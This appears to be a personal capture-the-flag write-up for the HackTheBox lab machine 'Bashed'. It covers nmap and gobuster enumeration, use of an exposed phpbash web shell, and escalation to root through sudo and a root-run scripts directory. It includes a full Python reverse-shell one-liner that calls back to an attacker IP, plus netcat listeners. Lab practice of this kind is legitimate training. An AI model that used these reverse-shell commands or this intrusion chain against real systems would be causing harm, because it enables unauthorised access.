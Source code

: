 **Ping** 
```
ping 10.10.10.68
```
![[Pasted image 20240613190619.png]]

Nmap Default Scan
```
nmap 10.10.10.68 -oN dnmap
```
![[Pasted image 20240613190713.png]]
We have only one open Port.

All port Scan
```
nmap 10.10.10.68 -sC -sV -p- --open -T5 -oN anmap
```
![[Pasted image 20240613190941.png]]
No other ports found.

On Port 80
![[Pasted image 20240613190924.png]]

Gobuster Scan 
```
gobuster dir -u http://10.10.10.68// -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x php,html,txt,bak,conf -s 200,204,301,302,307,403 -k --status-codes "" -o gobuster.txt
```
![[Pasted image 20240613204213.png]]

/dev has some php files
![[Pasted image 20240613205528.png]]

got a semi-Interactive shell from phpbash.min.php
![[Pasted image 20240613205624.png]]

Will get Proper Reverse shell, So will check for **nc** any **python** 
```
which nc
which python
```
![[Pasted image 20240613205812.png]]

We can get reverse shell using bot nc and python, I'm going with python
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.41",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```
```
rlwrap nc -nvlp 443
```
![[Pasted image 20240613210003.png]]
got it...!

Will upgrade the shell
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
![[Pasted image 20240613210150.png]]

Got the user.txt in home directory of user arrexel
![[Pasted image 20240613210348.png]]

Will jump to Privilege Escalation.....!

Will check sudo permissions
```
sudo -l
```
![[Pasted image 20240613211158.png]]

So we can switch to scriptmanager
```
sudo -u scriptmanager -i
```
![[Pasted image 20240613211305.png]]

So the script manager as full and root access to scripts directory
```
ls -la 
```
![[Pasted image 20240613213127.png]]

lets navigate to scripts directory and modify the mod or add new code for reverse shell as root.
![[Pasted image 20240613213229.png]]

Then execute the code to get reverse shell as root
```
python test.py
```
```
rlwrap nc -nvlp 443
```
![[Pasted image 20240613213400.png]]

Got root.txt in root directory
![[Pasted image 20240613213440.png]]


Done with bashed......:)